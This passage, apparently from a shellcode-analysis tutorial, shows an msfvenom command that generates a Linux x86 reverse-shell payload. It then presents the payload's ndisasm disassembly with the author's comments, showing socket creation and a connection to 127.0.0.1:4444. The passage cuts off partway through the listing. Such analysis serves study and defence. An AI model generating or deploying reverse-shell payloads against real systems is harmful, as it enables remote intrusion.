 ```bash
msfvenom -p linux/x86/shell/reverse_nonx_tcp -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; push 0x00000000
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; push 0x00000001
00000003  43                inc ebx
00000004  53                push ebx

                            ; push 0x02
00000005  6A02              push byte +0x2

                            ; push 0x00000066
00000007  6A66              push byte +0x66

                            ; EAX = 0x66 (102)
00000009  58                pop eax

                            ; 2nd argument of socketcall(): pointer to arguments of SYS_BIND
0000000A  89E1              mov ecx,esp

                            ; call socketcall syscall
0000000C  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
#define AF_INET       2
#define SOCK_STREAM   1
#define IPPROTO_IP    0

int fd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

So, up until now, it created a TCP socket. The file descriptor of the new socket is stored into `EAX`.

Next, the shellcode connects to the server socket (`127.0.0.1:4444`):

```nasm
                            ; exchanges EAX and EDI
0000000E  97                xchg eax,edi

                            ; EBX = 0x2
0000000F  5B                pop ebx

                            ; inet_aton("127.0.0.1")
00000010  687F000001        push dword 0x100007f

                            ; htons(4444)
00000015  6668115C          push word 0x5c11

                            ; push 0x00000002
00000019  6653              push bx

                            ; 2nd argument of connect(): pointer to sockaddr struct
```